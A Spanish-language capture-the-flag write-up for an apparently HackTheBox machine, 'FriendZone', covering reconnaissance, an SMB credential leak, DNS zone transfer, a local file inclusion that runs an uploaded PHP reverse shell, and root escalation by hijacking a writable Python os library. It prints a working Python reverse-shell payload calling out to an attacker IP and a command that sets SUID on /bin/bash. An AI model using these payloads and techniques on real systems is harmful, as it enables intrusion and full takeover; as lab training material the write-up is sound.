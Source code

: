Comenzamos con un escaneo de puertos abiertos y servicios mediante la herramienta nmap 

`sudo nmap -p- --open -sS --min-rate 5000 -n -v -sV -Pn 10.10.10.123 > escaneo.txt`

![[Pasted image 20240830183914.png]]

Procedemos a realizar un escaneo mas exaustivo de los puertos
`nmap -sC -sV -p 21,22,53,80,139,443,445 10.10.10.123 > escaneoPuertos.txt`
![[Pasted image 20240830185049.png]]
![[Pasted image 20240830185102.png]]

Podemos apreciar que tiene sevicios http y https ademas de servicios como ssh, ftp, servidor de DNS BIND, tenemos varios angulos de ataque, veamos que encontramos en las webs.

En el escaneo de puertos podemos observar el siguiente dominio
![[Pasted image 20240830190029.png]]
Ademas podemos verificar el dominio mediante la herramienta openssl
`openssl s_client -connect 10.10.10.123:443`
![[Pasted image 20240830190257.png]]
![[Pasted image 20240830190316.png]]
![[Pasted image 20240830190330.png]]
El dominio encontrado lo añadiremos a /etc/hosts
![[Pasted image 20240830193208.png]]

Antes de visitar las webs veamos que podemos sacar escaneandolas mediante la herramienta whatweb.

HTTP
`whatweb -v http://friendzone.red/`
![[Pasted image 20240830191306.png]]
![[Pasted image 20240830191318.png]]

HTTPS
`whatweb -v https://friendzone.red/`
![[Pasted image 20240830191336.png]]

Aparentemente los dos escaneos son parecidos, veamos que nos encontramos en las webs

`http://friendzone.red/`
![[Pasted image 20240830191652.png]]

![[Pasted image 20240830191709.png]]

`https://friendzone.red/`
![[Pasted image 20240830191719.png]]
![[Pasted image 20240830191740.png]]

Al encontrar el siguiente comentario paso a ingresar en la dirección https://friendzone.red/js/js/
![[Pasted image 20240830192227.png]]
`ZTl1WXN4cVFrUzE3MjUwMzgyMzZLZldKSjdJMk1I`

Parece ser base64 vamos a decodificarlo 
`echo "ZTl1WXN4cVFrUzE3MjUwMzgyMzZLZldKSjdJMk1I" | base64 -d`
![[Pasted image 20240830193002.png]]

Nos devuelve una cadena que no es de base64, parece ser una distracción. dejemos esta cadena por ahora.

En el primer escaneo del whatweb se puede apreciar otro dominio
![[Pasted image 20240830193302.png]]
Vamos a añadirlo a /etc/hosts
![[Pasted image 20240830193342.png]]
Visitemos el dominio encontrado 
`https://friendzoneportal.red/`
![[Pasted image 20240830193633.png]]
![[Pasted image 20240830193643.png]]

Al no encontrar nada en la web, pero vemos que vamos por buen camino, revisamos los escaneos de nmap y al ver los puertos 443 y 445 decido ver que puedo conseguir listando recursos del servidor SMB mediante smbclient
`smbclient -L 10.10.10.123 -N
![[Pasted image 20240830194133.png]]

Hemos encontrado varios recursos compartidos, algunos de ellos bastante interesantes, 
veamos mediante la herramienta smbmap los privilegios que tenemos sobre los recursos compartidos.
`smbmap -H 10.10.10.123`
![[Pasted image 20240904032210.png]]
Tenemos capacidad de escritura y lectura en development y de lectura en general
Veamos que encontramos en general 
`smbclient //10.10.10.123/general -N`
![[Pasted image 20240904032708.png]]
Encontramos lo que parecen ser unas credenciales, vamos a decargar el txt 
`get creds.txt`
![[Pasted image 20240904032758.png]]
Intentamos acceder con las credenciales mediante ssh pero no son validas, por lo que me hace pensar que hay un portal de autenticacion.

Al revisar el escaneo de nmap, veo que el puerto 53 está abierto por lo que decido intentar un ataque de transferencia de zona (AXFR) para ver que puedo encontrar.
![[Pasted image 20240904033248.png]]
`dig @10.10.10.123 friendzone.red axfr`

![[Pasted image 20240904033512.png]]
Añadimos los dominios encontrados al archivo hosts
![[Pasted image 20240904033745.png]]
Visitamos el dominio administrador
`https://administrator1.friendzone.red/`
![[Pasted image 20240904033913.png]]
Encontramos un login en el que podemos probar las credenciales, antes de eso visitemos el otro dominio interesante, uploads
`https://uploads.friendzone.red/`
![[Pasted image 20240904034407.png]]
Dejemos por ahora este subdominio y centremonos en el inicio de sesion

Iniciamos sesion con las credenciales en el inicio de sesion anteriormente encontrado 

`admin`
`WORKWORKHhallelujah@#`
![[Pasted image 20240904034004.png]]
Visitamos la ruta indicada
![[Pasted image 20240904034537.png]]
Parece ser que tiene algo que ver con la subida de la imagen en el subdominio de uploads, pero parece que nos dan una imagen predeterminada que podemos ver si añadimos a la ruta lo señalado
Añadiendo un ? y image_id=a.jpg&pagename=timestamp podemos ver lo siguiente
![[Pasted image 20240904034729.png]]
Al ver en la ruta `pagename` intento modificarlo para ver si cambia la web, 
`https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename`
le quito timestamp 
![[Pasted image 20240904035158.png]]
Desaparece la parte del timestamp como podemos aprecirar en las dos imagenes
intento apuntar a dashboard.php
![[Pasted image 20240904035305.png]]
Al ver que anteriormente estaba sin el php voy a quitarlo
![[Pasted image 20240904035345.png]]
Se crea un bucle del dashboard, por lo que podemos afirmar que la web añade el .php al final
esto me hace pensar en los recursos compartidos encontrados, ya que estaban en /etc/...
por lo que podemos intentar subir un archivo a development y visualizarlo mediante /etc/development

Creamos una prueba para subirla y comprobar que nos muestra este archivo php para poder subirle una reverse shell
![[Pasted image 20240904040822.png]]
Mediante put subimos el archivo 
`put prueba.php`
![[Pasted image 20240904040844.png]]Intentamos visualizarlo 
![[Pasted image 20240904041141.png]]
Genial!!!
Podemos subir una reverse shell para ganar acceso 
![[Pasted image 20240904041316.png]]
Subimos otro archivo con la reverse shell, nos ponemos en esscucha en el puerto correspondiente y ejecutamos la reverse.

`nc -lvnp 4444`
![[Pasted image 20240904041422.png]]
![[Pasted image 20240904041502.png]]
Ejecutamos la reverse y veamos si ganamos el acceso 
![[Pasted image 20240904041552.png]]
Perfecto, ya tenemos el acceso, hacemos el tratamiento de la tty y vamos a por la user flag 
User flag 

![[Pasted image 20240907163816.png]]

Escalada de privilegios

Al no encontrar ningun binario con permisos SUID interesantes ni tampoco podemos lanzar sudo -l intentaremos listar los procesos de la maquina.
Pasamos el script para listar procesos al recurso compartido Development y accedemos a el.
![[Pasted image 20240907163347.png]]

![[Pasted image 20240907163701.png]]
Nos dirigimos a TMP y le damos permisos de ejecución al script 
![[Pasted image 20240907163747.png]]


Ejecutamos el script para ver si hay algún proceso interesante.
![[Pasted image 20240907164459.png]]
Encontramos el siguiente proceso,se esta ejecutando un binario en  python como root, ya que el UID es 0.
Nos dirigimos al directorio donde se encuentra el binario para ver si tenemos permisos de escritura
![[Pasted image 20240908212211.png]]
No tenemos los permisos, veamos que contiene el binario.
![[Pasted image 20240908212352.png]]
Vemos que importa la libreria os, veamos donde se encuentra dicha libreria.
`locate op.py`
![[Pasted image 20240908212841.png]]
Veamos si tienemos capacidad de escritura
![[Pasted image 20240908212927.png]]
Tenemos capacidad de escritura, por lo que podemos añadir una reverse shell y ganar el acceso como root.
`nano /usr/lib/python2.7/os.py`
Al final del archivo añadimos lo siguiente

import socket,subprocess,os  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("10.10.14.51",4443)) 
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
![[Pasted image 20240908213632.png]]

Nos ponemos en escucha en el puerto seleccionado en la reverse shell

![[Pasted image 20240908213640.png]]

Esperamos a que root ejecute el binario que contiene la libreria os.

![[Pasted image 20240910035714.png]]
Ya tenemos acceso como root, vamos a por la flag
Root flag
![[Pasted image 20240910035854.png]]

-------------------------------------------------------------------------------------------------------------


Tambien podemos escalar privilegios de la siguiente manera
Actualmente el unico que tiene permisos para lanzar una shell es root 
![[Pasted image 20240910040322.png]]
En la libreria os podemos añadir lo siguiente
`system("chmod 4755 /bin/bash")`
![[Pasted image 20240910040539.png]]
Le añadimos permisos SUID a la bash para poder ejecutarla como el propietario, que es root.
Monitorizamos los permisos de la bash para ver cuando cambia 
`watch -n 1 ls -la /bin/bash`
![[Pasted image 20240910040626.png]]
Vemos que los permisos han cambiado al añadirse la s
![[Pasted image 20240910040726.png]]
`bash -p`
![[Pasted image 20240910041020.png]]

Al usar la opción `-p`, Bash no reducirá los privilegios del usuario efectivo al usuario real, preservando los permisos del proceso con los que fue invocado.